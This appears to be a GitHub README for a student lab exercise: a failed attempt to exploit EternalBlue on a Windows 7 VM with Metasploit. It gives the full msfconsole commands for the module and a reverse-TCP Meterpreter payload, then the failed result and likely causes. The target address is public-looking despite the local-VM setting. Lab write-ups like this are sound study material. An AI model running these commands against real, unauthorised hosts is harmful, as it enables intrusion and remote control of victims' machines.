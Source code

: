 # Mini Project 04: Metasploit Exploit on Windows 7 (Failed – No Session Created)

## Summary

This project aimed to exploit the EternalBlue vulnerability (CVE-2017-0144) on a Windows 7 VM using the Metasploit Framework.  
Although the exploit was launched successfully, **no Meterpreter session was created**, and access was not achieved.

---

## Objective

- Perform a penetration test using Metasploit  
- Exploit a vulnerable SMBv1 service on Windows 7  
- Gain a Meterpreter session using a reverse TCP payload

---

## Environment Setup

- **Attacker Machine:** Kali Linux (VirtualBox)  
- **Victim Machine:** Windows 7 (VirtualBox)  
- **Tool:** Metasploit Framework  
- **Exploit Used:** `windows/smb/ms17_010_eternalblue`  
- **Payload:** `windows/x64/meterpreter/reverse_tcp`

---

## Commands Executed

```bash
msfconsole

use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS 103.127.108.11
set LHOST 10.0.2.15
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp

exploit

## Result ❌

- Exploit executed, but **no session was created**  
- Message shown: `Exploit completed, but no session was opened.`

---

## Likely Causes

- Target system patched or not truly vulnerable to EternalBlue  
- Antivirus or firewall blocked the reverse connection  
- Incorrect payload architecture selected  
- NAT/VM network settings not properly configured  
- RHOST IP was unreachable or inactive

---

## Vulnerability Recap

- **Name:** EternalBlue  
- **CVE:** CVE-2017-0144  
- **Type:** Remote Code Execution  
- **Target Service:** SMBv1 (TCP Port 445)  
- **Patched by:** MS17-010 Security Update  
- **Used In:** WannaCry, NotPetya
